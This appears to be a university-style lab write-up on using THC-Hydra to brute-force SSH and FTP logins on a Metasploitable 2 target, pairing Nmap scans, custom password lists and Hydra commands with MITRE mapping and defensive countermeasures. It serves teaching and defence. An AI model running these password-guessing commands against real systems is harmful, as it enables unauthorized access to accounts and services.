




# 🔐 Experiment 9: Hydra Password Guessing

## Brute-Force and Dictionary-Based Password Attacks Using THC-Hydra

---

## 📌 Aim

To perform password guessing attacks against SSH and FTP services using **THC-Hydra** — a high-performance, parallelized network login cracker — demonstrating how weak credentials can be exploited through dictionary-based and brute-force attacks, and to understand the defensive measures required to mitigate such threats.

---

## 🧰 Requirements

| Component            | Specification                                         |
| :-------------------- | :---------------------------------------------------- |
| **Attacker Machine**  | Kali Linux (VM or bare-metal)                        |
| **Target Machine**    | Metasploitable 2 (or any machine with SSH/FTP)       |
| **Virtualization**    | VirtualBox / VMware Workstation                      |
| **Network**           | Host-Only or Internal Network (isolated lab)         |
| **Tools**             | THC-Hydra, Nmap, Ncrack (optional)                  |
| **Wordlists**         | Custom password list or `/usr/share/wordlists/rockyou.txt` |

---

## 📖 Theory

### Password Guessing Attacks

Password guessing attacks exploit the weakest link in most authentication systems — the human tendency to choose predictable, simple, or reused passwords. These attacks fall into several categories: **brute-force attacks** systematically try every possible character combination up to a given length; **dictionary attacks** use curated lists of common passwords, leaked credentials, and predictable patterns; and **credential stuffing** replays username-password pairs leaked from breaches on other services. Studies consistently show that a significant percentage of users rely on passwords like "password123", "admin", "qwerty", or variations of personal information — making dictionary attacks devastatingly effective against poorly secured services. In penetration testing, password guessing against network services (SSH, FTP, RDP, HTTP, SMB) is a standard technique that often yields initial access more reliably than complex vulnerability exploitation.

### THC-Hydra

THC-Hydra (commonly just "Hydra") is the most widely used parallelized network login cracker in the penetration testing arsenal. Developed by The Hacker's Choice (THC), Hydra supports over 50 protocols including SSH, FTP, Telnet, HTTP (GET/POST/Form), HTTPS, SMB, MSSQL, MySQL, PostgreSQL, LDAP, RDP, VNC, SNMP, and many more. Its key strength lies in parallelism — Hydra can launch up to 64 concurrent connection threads per target, dramatically reducing the time required to test large wordlists. The tool supports both single-target and mass-target modes, allows specification of custom username and password lists (or single values), and provides granular control over connection timing, retry behavior, and output formatting. Hydra can be combined with tools like `crunch` (for generating custom wordlists), `CeWL` (for scraping target-specific words), and `cupp` (for profiling-based wordlist generation) to create highly targeted attack dictionaries.

### Defensive Perspective

From a defensive standpoint, password guessing attacks generate distinctive patterns that are detectable with proper monitoring. Rapid successive authentication failures from a single source IP, connections across multiple accounts in sequence, and authentication attempts using known-leaked passwords are all indicators of automated credential attacks. Defenses include account lockout policies (with care to avoid denial-of-service through intentional lockouts), progressive delay mechanisms (exponential backoff), multi-factor authentication (MFA), SSH key-based authentication (disabling password auth entirely), fail2ban or similar intrusion prevention tools, and CAPTCHAs for web-based authentication. Rate limiting at the network level and geographic/IP reputation-based blocking further reduce attack surface.

---

## 🔬 Procedure

### Step 1 — Verify Network Connectivity

Confirm that the attacker (Kali) machine can reach the target:

```bash
# Ping the target machine
ping -c 4 192.168.56.101

# Verify attacker IP address
ip addr show eth0
```

Ensure bidirectional connectivity before proceeding with service enumeration.



---

### Step 2 — Enumerate Target Services with Nmap

Scan the target to identify running services and confirm that SSH and FTP are available for attack:

```bash
# Scan for SSH (22) and FTP (21) services
nmap -sV -p 21,22 192.168.56.101

# Full service scan for broader context
nmap -sV -sC -p- 192.168.56.101
```

Confirm the following services are running:
- **Port 21** — FTP (vsftpd or similar)
- **Port 22** — SSH (OpenSSH)

Note the exact service versions, as they may affect authentication behavior and rate limiting.



---

### Step 3 — Prepare Password Wordlists

Create or select wordlists for the attack. A custom targeted wordlist is more effective than a massive generic one:

```bash
# Option 1: Create a custom password list
cat > /root/passwords.txt << 'EOF'
password
123456
admin
root
toor
msfadmin
password123
letmein
welcome
monkey
dragon
master
qwerty
abc123
login
passw0rd
shadow
EOF

# Option 2: Create a username list
cat > /root/users.txt << 'EOF'
root
admin
msfadmin
user
ftp
service
postgres
EOF

# Option 3: Use Kali's built-in wordlists
ls /usr/share/wordlists/
# rockyou.txt — 14 million passwords from the 2009 RockYou breach
# Extract if compressed
gunzip /usr/share/wordlists/rockyou.txt.gz
```

> **💡 Tip:** For targeted attacks, use `CeWL` to generate wordlists from the target's website, or `cupp` to create profile-based password lists from gathered OSINT.



---

### Step 4 — Execute Hydra Against SSH

Launch Hydra against the target's SSH service using the prepared wordlists:

```bash
# Basic SSH brute-force with username and password lists
hydra -L /root/users.txt -P /root/passwords.txt ssh://192.168.56.101

# SSH attack with specific username
hydra -l msfadmin -P /root/passwords.txt ssh://192.168.56.101

# Increase parallelism for faster testing (default: 16 threads)
hydra -l msfadmin -P /root/passwords.txt -t 4 ssh://192.168.56.101

# Add verbose output for monitoring progress
hydra -l msfadmin -P /root/passwords.txt -t 4 -vV ssh://192.168.56.101

# Save results to a file
hydra -l msfadmin -P /root/passwords.txt -t 4 -o /root/hydra-ssh-results.txt ssh://192.168.56.101
```

**Key Hydra flags:**

| Flag   | Description                                      |
|:-------|:-------------------------------------------------|
| `-l`   | Single username                                  |
| `-L`   | Username list file                               |
| `-p`   | Single password                                  |
| `-P`   | Password list file                               |
| `-t`   | Number of parallel threads (default: 16)         |
| `-vV`  | Verbose mode — show each attempt                 |
| `-o`   | Output file for results                          |
| `-f`   | Stop after first valid credential found          |
| `-s`   | Specify non-standard port                        |

---

### Step 5 — Execute Hydra Against FTP

Repeat the attack against the FTP service:

```bash
# FTP brute-force with username and password lists
hydra -L /root/users.txt -P /root/passwords.txt ftp://192.168.56.101

# FTP attack with a single known username
hydra -l msfadmin -P /root/passwords.txt ftp://192.168.56.101

# FTP with verbose output and thread control
hydra -l msfadmin -P /root/passwords.txt -t 8 -vV ftp://192.168.56.101

# Stop on first valid login found
hydra -l msfadmin -P /root/passwords.txt -t 8 -f ftp://192.168.56.101
```



---

### Step 6 — Verify Discovered Credentials

Validate the credentials found by Hydra by manually logging in:

```bash
# Verify SSH credentials
ssh msfadmin@192.168.56.101
# Enter the discovered password when prompted

# Verify FTP credentials
ftp 192.168.56.101
# Enter username and discovered password

# Alternatively, use Ncrack for cross-verification
ncrack -p ssh --user msfadmin -P /root/passwords.txt 192.168.56.101
```

---

### Step 7 — Analyze Hydra Output

Review the attack results and statistics:

```bash
# View saved results
cat /root/hydra-ssh-results.txt

# Count total attempts made
# Hydra reports: [STATUS] X of Y attempts completed
# Successful login format: [22][ssh] host: 192.168.56.101   login: msfadmin   password: msfadmin
```

Document the number of:
- Total password combinations tested
- Time elapsed for the attack
- Valid credentials discovered
- Failed authentication attempts

---

## 📊 Key Observations

| # | Observation                              | Details                                                             |
|---|:-----------------------------------------|:--------------------------------------------------------------------|
| 1 | Weak credentials discovered              | Default/simple passwords found on SSH and FTP services              |
| 2 | Attack speed vs. threads                 | Higher thread counts increase speed but may trigger rate limiting   |
| 3 | SSH vs. FTP attack timing                | SSH attacks are slower due to cryptographic handshake overhead      |
| 4 | Wordlist quality matters                 | Targeted wordlists with common/default passwords yield faster hits  |
| 5 | No account lockout on target             | Metasploitable lacks lockout policy — unlimited attempts allowed    |
| 6 | No intrusion detection triggered         | Absence of fail2ban allowed sustained brute-force without blocking  |
| 7 | Default credentials are critical risks   | Services with default credentials are trivially compromised         |

---

## 🗺️ MITRE ATT&CK Mapping

| Technique ID  | Technique Name                                          | Tactic            | Relevance                                             |
|:--------------|:--------------------------------------------------------|:------------------|:------------------------------------------------------|
| **T1110**     | Brute Force                                             | Credential Access | Systematic password guessing against services         |
| **T1110.001** | Brute Force: Password Guessing                          | Credential Access | Dictionary-based password attacks via Hydra           |
| **T1110.003** | Brute Force: Password Spraying                          | Credential Access | Testing common passwords across multiple accounts     |
| **T1078**     | Valid Accounts                                          | Initial Access    | Using discovered credentials to authenticate          |
| **T1078.001** | Valid Accounts: Default Accounts                        | Initial Access    | Exploiting unchanged default credentials              |
| **T1046**     | Network Service Discovery                               | Discovery         | Nmap scan to identify SSH/FTP services                |
| **T1021.004** | Remote Services: SSH                                    | Lateral Movement  | Using cracked SSH credentials for remote access       |
| **T1133**     | External Remote Services                                | Initial Access    | Accessing SSH/FTP from external network               |

---

## 🛡️ Countermeasures / Defensive Recommendations

| # | Recommendation                                   | Implementation Details                                                                          |
|---|:-------------------------------------------------|:------------------------------------------------------------------------------------------------|
| 1 | **Enforce strong password policies**             | Minimum 12 characters, complexity requirements; prohibit common passwords via PAM modules       |
| 2 | **Implement account lockout**                    | Lock accounts after 5 failed attempts with progressive timeout (PAM `pam_tally2` or `faillock`)|
| 3 | **Deploy fail2ban**                              | `apt install fail2ban` — auto-ban IPs after configurable failed login threshold                 |
| 4 | **Use SSH key-based authentication**             | Disable password auth: `PasswordAuthentication no` in `/etc/ssh/sshd_config`                   |
| 5 | **Enable multi-factor authentication (MFA)**     | Add TOTP/FIDO2 as second factor via `libpam-google-authenticator` or similar                    |
| 6 | **Change default credentials immediately**       | Audit all services for default usernames/passwords before deployment                            |
| 7 | **Rate limit authentication attempts**           | Configure `MaxAuthTries 3` in SSH config; use iptables to rate-limit connections                |
| 8 | **Monitor authentication logs**                  | Forward `/var/log/auth.log` to SIEM; alert on rapid successive failures from single IPs        |
| 9 | **Restrict service exposure**                    | Use firewall rules to limit SSH/FTP access to authorized IP ranges only                        |

---

## ✅ Result

Password guessing attacks were successfully executed against SSH and FTP services on the target machine using THC-Hydra. The tool discovered valid credentials by systematically testing combinations from the prepared wordlists. Key findings:

- **SSH (Port 22):** Valid credentials discovered (e.g., `msfadmin:msfadmin`)
- **FTP (Port 21):** Valid credentials discovered using default/weak passwords
- **Attack duration:** Dictionary attack completed within minutes due to the small, targeted wordlist and absence of rate limiting or lockout policies on the target

---

## 📝 Conclusion

This experiment demonstrated the significant risk posed by weak and default credentials in network services. THC-Hydra's parallel connection architecture enabled rapid dictionary-based attacks against SSH and FTP, successfully compromising both services. The absence of defensive controls — account lockout, fail2ban, intrusion detection, and MFA — on the target system allowed the attack to proceed unimpeded. In real-world environments, organizations must enforce strong password policies, deploy automated blocking mechanisms (fail2ban), transition to key-based authentication for SSH, implement multi-factor authentication, and monitor authentication logs for brute-force indicators. Password guessing remains one of the most common initial access vectors in both automated botnet attacks and targeted intrusions, making robust credential security a fundamental defensive requirement.

---

> **⚠️ Disclaimer:** This experiment is performed in an isolated lab environment for educational purposes only. Unauthorized password attacks against systems you do not own or have explicit authorization to test are illegal under the CFAA, IT Act, and similar legislation worldwide.
